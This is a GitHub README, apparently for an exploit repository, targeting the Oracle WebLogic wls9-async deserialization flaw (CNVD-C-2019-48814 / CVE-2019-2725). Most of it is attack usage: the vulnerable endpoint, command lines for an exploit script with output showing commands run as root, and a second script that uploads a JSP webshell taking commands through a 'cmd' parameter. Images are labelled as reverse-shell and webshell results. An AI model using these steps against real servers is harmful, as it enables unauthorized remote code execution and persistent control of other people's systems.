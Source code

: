 # CNVD-C-2019-48814
WebLogic wls9-async反序列化远程命令执行漏洞

### Patch update: 
```

https://www.oracle.com/technetwork/security-advisory/alert-cve-2019-2725-5466295.html

```
### 漏洞复现：


```
http://10.10.20.166:7001/_async/AsyncResponseService
```

```
curl -i http://10.10.20.166:7001/_async/favicon.ico
```
##  CNVD-C-2019-48814 Video

[![CNVD-C-2019-48814](https://i.ytimg.com/vi/KEgOrgcLu0s/hqdefault.jpg?sqp=-oaymwEZCNACELwBSFXyq4qpAwsIARUAAIhCGAFwAQ==&rs=AOn4CLCLGk3OZ83msmbe5IgfAq6EFN2Dhw)](https://github.com/jas502n/CNVD-C-2019-48814/blob/master/CNVD-C-2019-48814.mp4)

```
python CNVD-C-2019-48814.py -u  http://10.10.20.166:7001  -p 1.txt

>>>>Common See:

write website favicon.ico
Don't Need RMI Server

http://10.10.20.166:7001/_async/favicon.ico

>>>>Request Success!
status_code:202

C:\Users\CTF\Desktop\weblogic\byte>curl -i http://10.10.20.166:7001/_async/favicon.ico
HTTP/1.1 200 OK
Date: Thu, 25 Apr 2019 14:37:49 GMT
Accept-Ranges: bytes
Content-Length: 5
Last-Modified: Thu, 25 Apr 2019 14:37:45 GMT
X-Powered-By: Servlet/2.5 JSP/2.1

root

```
## Use RMI
![](./python.jpg)

![](./burpsuite.jpg)

###  CVE-2017-10271 No pactch

#### windows-linux-webshell
```
upadte: 自定义webshell名字，适用于windows or linux upload webshell

python async_webshell-all.py  http://10.10.20.166:7001/ webshell.jsp
>>>Webshell:
http://10.10.20.166:7001//bea_wls_internal/webshell.jsp?pwd=123&cmd=whoami
```
![](./windows-linux-webshell.jpg)


#### resever_shell
![](./reserve_shell.jpg)
#### command see
![](./command.jpg)
#### webshell
![](./webshell.jpg)

